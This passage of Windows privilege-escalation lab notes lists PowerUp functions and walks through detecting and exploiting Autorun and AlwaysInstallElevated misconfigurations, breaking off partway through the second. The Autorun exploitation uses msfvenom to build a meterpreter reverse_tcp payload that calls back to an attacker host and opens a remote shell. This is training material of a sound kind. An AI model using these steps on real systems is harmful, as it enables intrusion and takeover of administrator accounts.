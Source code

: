 ```powershell
Get-CurrentUserTokenGroupSid        #   returns all SIDs that the current user is a part of, whether they are disabled or not
Add-ServiceDacl                     #   adds a Dacl field to a service object returned by Get-Service
Set-ServiceBinPath                  #   sets the binary path for a service to a specified value through Win32 API methods
Test-ServiceDaclPermission          #   tests one or more passed services or service names against a given permission set
Write-UserAddMSI                    #   write out a MSI installer that prompts for a user to be added

7. Check ALL
Invoke-AllChecks                    #   runs all current escalation checks and returns a report
```
---
## Autorun
### Detection
Windows VM
1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
2. In Autoruns, click on the ‘Logon’ tab.
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.
### Exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
7. Copy the generated file, program.exe, to the Windows VM.

Windows VM
1. Place program.exe in ‘C:\Program Files\Autorun Program’.
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM
1. Wait for a new session to open in Metasploit.
2. In Metasploit (msf > prompt) type: sessions -i [Session ID]
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

---
## AlwaysInstallElevated
### Detection
Windows VM
1. Open command prompt and type: reg query HKLM\Software\Policies\Microsoft\Windows\Installer
2. From the output, notice that “AlwaysInstallElevated” value is 1
3. In command prompt type: reg query HKCU\Software\Policies\Microsoft\Windows\Installer
4. From the output, notice that “AlwaysInstallElevated” value is 1
### exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler